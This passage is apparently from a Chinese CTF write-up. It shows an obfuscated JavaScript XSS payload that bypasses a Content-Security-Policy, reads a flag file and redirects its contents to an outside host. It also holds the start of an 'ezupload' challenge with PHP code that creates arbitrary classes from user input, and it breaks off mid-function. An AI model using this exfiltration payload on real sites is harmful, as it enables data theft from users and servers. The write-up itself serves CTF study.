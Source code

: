 



csp:`Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'; img-src 'self'; object-src 'none'; require-trusted-types-for 'script';`

绕过

```javascript
<script >xmlhttp=new XMLHttpRequest();
xmlhttp[`\x6fnreadystatechange`]=()=>{if(xmlhttp.readyState==4 && xmlhttp.status==200){document[`\x6cocati\x6fn`][`href`]=`http://ccreat\x65r.top:60006/`+xmlhttp[`\x72espo\x6eseText`];}};xmlhttp.open(`GET`,`/lib\x2ffla\x67.php`,true);xmlhttp.send();</script>
```

拿到flag



##  ezupload



 http://183.129.189.60:10057/ 

```
/flag.php
/index.php
/log.php
/login.php
/www.zip
```

flag.php

```php
flag.php关键代码如下：
$classname = $_GET['classname'];
$data = $_GET['data'];
$class = new $classname($data['a'], $data['b']);
Only users from the website can request this page. flag in /flag, have fun!
```



先登陆康康,需要key,相关代码在:

```php
<?php
	header("content-type:text/html;charset=utf-8");
	session_start();
	function getkey()
	{
		$key = '';
		$chars = str_split('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');
		for ($i = 0; $i < 48; $i++)
		{
			$key = $key . $chars[random_int(0, 61)];
		}
		$_SESSION['key'] = $key;
		return $key;
	}
	function getreferer() {
		static $referer;
		if (isset($_SERVER['HTTP_REFERER'])) {
				$referer = $_SERVER['HTTP_REFERER'];
			}
		elseif(isset($_POST['URL_REFERER'])){
				$referer = $_POST['URL_REFERER'];
			}
		else{
			die("Where are you from?");
```